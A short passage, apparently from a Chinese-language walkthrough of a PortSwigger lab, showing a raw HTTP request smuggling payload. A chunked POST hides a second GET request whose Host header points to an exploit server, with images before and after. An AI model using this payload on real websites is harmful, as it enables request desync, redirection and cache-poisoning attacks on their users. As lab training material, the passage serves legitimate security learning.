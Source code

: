 [![](assets/1704418275-f14f3df1a92f85ffa0f594292bfc691f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103161707-7c1264da-aa10-1.png)

随后构造以下走私的请求

```plain
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 193
Transfer-Encoding: chunked

0

GET /post/next?postId=3 HTTP/1.1
Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```

[![](assets/1704418275-d1467e18e62ee313d515ab0daed6637b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103161733-8ba620f8-aa10-1.png)

